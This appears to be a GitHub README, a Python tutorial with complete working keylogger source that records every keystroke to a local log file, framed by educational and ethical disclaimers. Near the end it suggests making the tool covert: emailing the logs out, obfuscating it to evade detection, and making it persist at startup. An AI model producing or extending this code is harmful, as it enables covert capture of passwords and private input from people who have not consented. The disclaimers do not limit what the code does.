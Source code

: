 # 2-keylogger
Creating a keylogger software can be an educational exercise in understanding cybersecurity and software development. However, it's important to highlight that keyloggers can be used maliciously and are illegal to use without explicit consent from the user being monitored. Therefore, this project should only be conducted in a controlled and ethical environment, such as a personal learning project on your own machine or in a cybersecurity lab setting.

Here's a basic outline of how to create a keylogger using Python. We'll use the pynput library to capture keystrokes.

Steps to Create a Keylogger
Setup Environment:

Install the pynput library: pip install pynput
Create the Keylogger Script:

Create a Python file (e.g., keylogger.py).
Keylogger Code:

python
Copy code
from pynput.keyboard import Key, Listener
import logging

log_dir = ""

logging.basicConfig(filename=(log_dir + "key_log.txt"),
                    level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()
Explanation:
Library Import:

pynput.keyboard: This module allows us to monitor and control keyboard input.
logging: This module is used to record the keystrokes to a file.
Logging Setup:

log_dir: The directory where the log file will be saved. In this example, it's set to the current directory.
logging.basicConfig(): Configures the logging module to write the keystrokes to key_log.txt.
Key Press Event:

on_press(key): This function is called whenever a key is pressed. It logs the key press event.
Listener(on_press=on_press): Sets up a listener that triggers the on_press function whenever a key is pressed.
listener.join(): Starts the listener and keeps it running.
Running the Keylogger:
Save the keylogger.py file.
Run the script by executing python keylogger.py.
Ethical and Legal Considerations:
Consent: Only run the keylogger on systems where you have explicit permission from the user.
Legality: Be aware of the legal implications. Unauthorized use of keyloggers can lead to severe legal consequences.
Security: Ensure that any logs or data collected are securely stored and handled to prevent misuse.
Enhancements:
For a more advanced project, consider the following enhancements:

Email Logs: Periodically email the logs to yourself.
Obfuscation: Make the keylogger harder to detect by using obfuscation techniques.
Persistence: Ensure the keylogger starts automatically when the computer starts (requires additional OS-specific steps).
Important Notice:
Developing and using keyloggers should be done responsibly and ethically. This example is for educational purposes only and should not be used for any malicious activity. Always respect privacy and legal boundaries.
